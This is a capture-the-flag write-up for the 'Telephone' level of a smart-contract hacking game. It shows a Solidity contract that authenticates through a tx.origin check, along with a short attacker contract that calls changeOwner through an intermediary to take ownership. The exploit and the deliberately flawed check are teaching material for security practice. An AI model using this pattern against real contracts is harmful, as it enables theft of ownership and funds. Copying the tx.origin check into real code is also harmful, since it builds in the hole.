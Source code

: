 # **Level 4 -- Telephone**
## **Contract to hack**
``` solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```
---
## ***Objectives***
* Claim ownership of the contract
---
## ***Thought Process***
Except for the `constructor()` function, this contract only has one function `changeOwner()`, and there are only one condition `tx.origin != msg.sender` in the function. Therefore we just need to fulfill the condition`tx.origin != msg.sender` to claim the ownership of the contract.
This is a very easy challenge.

---
## ***Solution***
Create a contract to call `changeOwner()`
``` solidity
pragma solidity ^0.8.0;
interface ITelephone {
    function changeOwner(address _owner) external;
}

contract Telephone {
    address levelInstance;
    
    constructor(address _levelInstance) public {
      levelInstance = _levelInstance;
    }
  
  function claim() public {
    ITelephone(levelInstance).changeOwner(msg.sender);
  }

}
```



